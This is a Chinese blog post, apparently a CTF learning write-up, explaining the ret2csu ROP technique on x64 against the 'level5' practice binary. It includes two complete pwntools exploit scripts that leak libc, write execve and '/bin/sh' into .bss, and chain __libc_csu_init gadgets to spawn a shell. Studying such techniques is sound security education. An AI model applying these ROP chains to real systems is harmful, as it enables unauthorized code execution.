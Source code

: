 ﻿---
layout:     post
title:      栈溢出基础浅记（2）
subtitle:   中级rop（ret2csu）
date:       2023-10-06
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

这部分的内容主要是针对x64的栈溢出ROP，首先回顾一下x86和x64的函数调用区别。

- x86
  - **函数参数**在**函数返回地址**的上方
- x64
  - System V AMD64 ABI (Linux、FreeBSD、macOS 等采用) 中前六个整型或指针参数依次保存在 **RDI, RSI, RDX, RCX, R8 和 R9 寄存器**中，如果还有更多的参数的话才会保存在栈上。
  - 内存地址不能大于 0x00007FFFFFFFFFFF，**6 个字节长度**，否则会抛出异常。

## [ret2csu]([中级ROP - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#ret2csu))

### wiki里面的方法

官方的exp略加修改为python3的形式：

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```

### 我的方法

我的方法和wiki大差不差，利用的ROP略有区别

漏洞位置不再赘述，简单的栈溢出，同样可以通过查看gdb得知输入位置和rbp的距离

 ![16966710635071696671062616.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16966710635071696671062616.png)

需要填充0x80个字节，为了能够修改控制函数的执行，首先要能控制rdi和rsi。

使用ROPgadget寻找rop|ret，发现都是有的

```
❯ ROPgadget --binary level5 --only 'ret|pop' | grep rdi
0x0000000000400623 : pop rdi ; ret
❯ ROPgadget --binary level5 --only 'ret|pop' | grep rsi
0x0000000000400621 : pop rsi ; pop r15 ; ret
```

> 以下是pop指令与各个寄存器的机器码：
>
> pop rax：0x58
> pop rbx：0x5B
> pop rcx：0x59
> pop rdx：0x5A
> pop rsi：0x5E
> pop rdi：0x5F
> pop rbp：0x5D
> pop rsp：0x5C
> pop r8：0x41 58
> pop r9：0x41 59
> pop r10：0x41 5A
> pop r11：0x41 5B
> pop r12：0x41 5C
> pop r13：0x41 5D
> pop r14：0x41 5E
> pop r15：0x41 5F
>
> 特别注意到，pop r8到r15这些寄存器的机器码后面一个字节是和前面的寄存器有重合的，所以可以利用这点，有pop r15,就相当于有了pop rdi。

> 查找libc中函数调用方式：https://elixir.bootlin.com/glibc/glibc-2.35

- payload1：调用write函数输出write_got的地址，从而泄露libc地址

  write(1,write_got)，返回main函数

- payload2：调用read函数将execve_addr和'/bin/sh\x00'写入bss段

  read(0,bss_base)返回main函数

- payload3：一开始是想直接调用execve_addr，执行/bin/sh，但是失败了，因为执行sys_execve时需要rdx为0，没有直接的方法修改rdx，所以使用了类似wiki的方法，具体见下面的exp

```python
#!/usr/bin/env python

from pwn import *
from LibcSearcher import LibcSearcher

sh = process('./level5')
level5 = ELF('./level5')

write_got = level5.got['write']
read_plt = level5.plt['read']
write_plt = level5.plt['write']
main_addr = level5.symbols['main']
bss_base = level5.bss()
pop_rdi = 0x0000000000400623
pop_rsi_pop_r15 = 0x0000000000400621

payload = b'a' * 0x80 + b'deadbeef' + p64(pop_rdi) + p64(1) + p64(pop_rsi_pop_r15) + p64(write_got) + p64(0) + p64(write_plt) + p64(main_addr)
# gdb.attach(sh)
sh.recvuntil(b'Hello, World\n')
sh.send(payload)

write_addr = u64(sh.recv(8))
log.success('write_addr ' + hex(write_addr))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))

sh.recvuntil(b'Hello, World\n')
payload= b'a' * 0x80 + b'deadbeef' + p64(pop_rdi) + p64(0) + p64(pop_rsi_pop_r15) + p64(bss_base) + p64(0) + p64(read_plt) + p64(main_addr)
sh.send(payload)
sh.send(p64(execve_addr) + b'/bin/sh\x00')
sh.recvuntil(b'Hello, World\n')
# gdb.attach(sh)
# 不能直接用下面的payload，因为执行execve时，进行系统调用时需要rdx为0，我们没有办法控制rdx，经测试此时rdx为0x200，导致execve失败
# payload = b'a' * 0x80 + b'deadbeef' + p64(pop_rdi) + p64(bss_base + 8) + p64(pop_rsi_pop_r15) +p64(0) + p64(0) + p64(execve_addr) + p64(main_addr)

# .text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54
# .text:0000000000400600                 mov     rdx, r13
# .text:0000000000400603                 mov     rsi, r14
# .text:0000000000400606                 mov     edi, r15d
# .text:0000000000400609                 call    qword ptr [r12+rbx*8]
# .text:000000000040060D                 add     rbx, 1
# .text:0000000000400611                 cmp     rbx, rbp
# .text:0000000000400614                 jnz     short loc_400600

# .text:000000000040061A                 pop     rbx
# .text:000000000040061B                 pop     rbp
# .text:000000000040061C                 pop     r12
# .text:000000000040061E                 pop     r13
# .text:0000000000400620                 pop     r14
# .text:0000000000400622                 pop     r15
# .text:0000000000400624                 retn
# 利用上面的这些指令，可以先通过修改r13,r14,r15间接修改rdx,rsi,rdi分别为0,0,bss_base
# 然后通过修改rbx和r12，使得0x400609调用的函数设置为bss_base中所指的函数，这样就可以执行execve了

loc_400600 = 0x0000000000400600
pop_rbx_rbp_r12_r13_r14_r15 = 0x000000000040061A
# gdb.attach(sh)
payload = b'a' * 0x80 + b'deadbeef' + p64(pop_rbx_rbp_r12_r13_r14_r15) + p64(0) + p64(1) + p64(bss_base) + p64(0) + p64(0) + p64(bss_base+8) + p64(loc_400600)
# 输出payload的长度
log.success('payload3 length ' + str(len(payload)))
sh.send(payload)
sh.interactive()

```

花了一下午时间，也算是有点收获吧~

总的来说，wiki提供了一种通用解法，可以方便的修改多个寄存器，有时候为了快捷，可以优先考虑ret2csu！
